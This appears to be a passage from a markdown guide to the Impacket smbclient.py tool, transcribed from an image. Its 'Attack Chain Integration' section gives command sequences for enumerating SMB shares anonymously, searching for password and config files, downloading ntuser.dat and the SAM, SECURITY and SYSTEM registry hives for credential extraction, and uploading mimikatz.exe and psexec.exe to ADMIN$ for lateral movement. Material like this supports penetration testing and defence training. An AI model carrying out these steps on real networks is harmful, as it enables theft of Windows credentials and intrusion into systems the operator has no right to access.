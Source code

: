 
### System Commands
```bash
# Show SMB server information
info

# List open files
who

# Close connection
exit
quit
```

## Attack Chain Integration

### Initial Reconnaissance
```bash
# Step 1: Enumerate shares anonymously
python3 smbclient.py target.domain.com
# In shell: shares

# Step 2: Access readable shares
python3 smbclient.py target.domain.com
# In shell: use C$, ls

# Step 3: Look for sensitive files
# In shell: find . -name "*.config"
# In shell: find . -name "password*"
```

### Credential Harvesting
```bash
# Step 1: Connect with obtained credentials
python3 smbclient.py domain.com/user:password@target.domain.com

# Step 2: Browse for sensitive data
# use C$
# cd Users
# cd Administrator
# cd Desktop
# get ntuser.dat

# Step 3: Extract configuration files
# cd Windows\System32\config
# get SAM
# get SECURITY
# get SYSTEM
```

### Lateral Movement Support
```bash
# Step 1: Upload tools for lateral movement
python3 smbclient.py domain.com/user:password@target.domain.com
# use ADMIN$
# cd Temp
# put mimikatz.exe
# put psexec.exe

# Step 2: Verify upload
# ls
# info mimikatz.exe

```